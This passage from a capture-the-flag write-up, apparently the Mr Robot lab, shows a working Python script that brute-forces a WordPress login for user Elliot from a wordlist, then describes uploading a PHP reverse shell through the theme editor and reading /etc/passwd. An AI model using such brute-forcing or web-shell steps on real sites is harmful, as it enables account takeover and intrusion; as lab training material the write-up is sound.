 Once the script completes we get our username: `Elliot`

### Figuring out password for user

Now lets figure out the password. Let's use the **fsocity.dic** file we got earlier as password list. *Yeah I could have gone with hydra for this but I don't like the syntax when dealing with web login pages hence plain and simple python script.*

```python
#!/usr/bin/python3

import requests

url = "http://10.10.186.224/wp-login.php"

log = "username"
pwd ="password"
wpsubmit = "login"

password_error = "The password you entered for the username"

file = open("fsocity.dic", "r")
file_data = file.readlines()
file.close()

trial = 0
for f in file_data:
	f = f.replace("\n","")
	trial += 1
	print(f"Trial No: {trial} Trying Password: {f}", end=" - ")
	payload = {"log":"Elliot", "pwd":f, "wp-submit":"login"}
	r = requests.post(url, data=payload)
	if password_error in r.text:
		print("Did not work")
	else:
		print("Got the password!")
		break

print("END OF SCRIPT")

```

This script will take a while to complete, but once done we have our password: `ER28-0652`

Let's login and look around. Let's check the **users** tab for any other users. We already have **admins** role, this makes things easy.

Let's upload a reverse shell php script in **Editor** option inside **Appearance** tab *(I knew this cause I had some previous experience with wordpress)*. For this I used **comments.php** template though any template can be used. Just replace the existing code inside the \*.php file and call that through your browser. In my case **http://10.10.186.224/comments.php**. Make sure you set up an netcat listener before calling the \*.php file. Once done we get ourselves a reverse shell.

Let's check the **/etc/passwd** file for usernames and home directories. We have a user by the name of **robot** with home directory at **/home/robot**. Let's take a look inside. It seems we cannot read the key2 file but there is one more file with hash inside.
